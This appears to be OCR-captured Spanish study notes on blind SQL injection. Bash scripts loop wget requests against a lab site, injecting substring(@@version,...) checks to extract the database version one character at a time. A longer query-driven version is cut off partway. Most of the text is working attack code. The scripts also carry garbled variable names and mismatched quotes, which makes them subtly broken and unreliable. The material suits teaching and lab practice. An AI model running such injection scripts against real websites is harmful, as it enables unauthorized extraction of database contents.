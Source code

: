 |   |   |
|---|---|
|>bash blind1.sh|Ejecutamos el script|
|>nano blind1.sh|Editamos para extaer el segundo character en la linea de script|

wget "$URL?band=the offspring' and substring(@@version,2,1)='$i' -q -O - | grep "$truestring'

Ejecutmos nuevamente con >bash

### Máximo tamaño del string que queremos extraer

>nano blind2.sh

#!/bin/bash
charset='echo {0..9} {A..Z} \. \: \, \; \- \_ \@'
export URL="http://blind.sql.site/banddetails.php"
export  trustring='We worked with them in the past."
export maxlengh=$1
export result=""
for ((j=1; j<$maxlenght;j+=1))
do
export nthchart=$j
for i in $charset
do
wget "$URL?band=the offspring' and substring(@@version,$nthchar,1)='$i" -q -O - | grep "$truestring' &> /dev/null
if [ "$?" == "0" ]
then
echo Character number $nthchar found: $i
export result+=$i
break
fi
done
done
echo Result: $result

|   |   |
|---|---|
|>bash blind2.sh 20|Usa como parámetro 20 que entra en el algoritmo como $1|

|   |   |
|---|---|
|$?|Simboliza el estatus de salida del último comando ejecutado (en este caso cuando se ejecuta wget): es 0 cuando es TRUE  y 1 en TRUE|

|   |   |
|---|---|
|>nano blind3.sh|Version mejorada de blind2 donde usamos como parámetro un query|

#!/bin/bash
charset='echo {0..9} {A..Z} \. \: \, \; \- \_ \@'
export URL="http://blind.sql.site/banddetails.php"
export  trustring='We worked with them in the past."
export maxlengh=$1
export query=$2
export result=""
echo "Extracting the results for $query…"
for ((j=1; j<$maxlenght;j+=1))
do
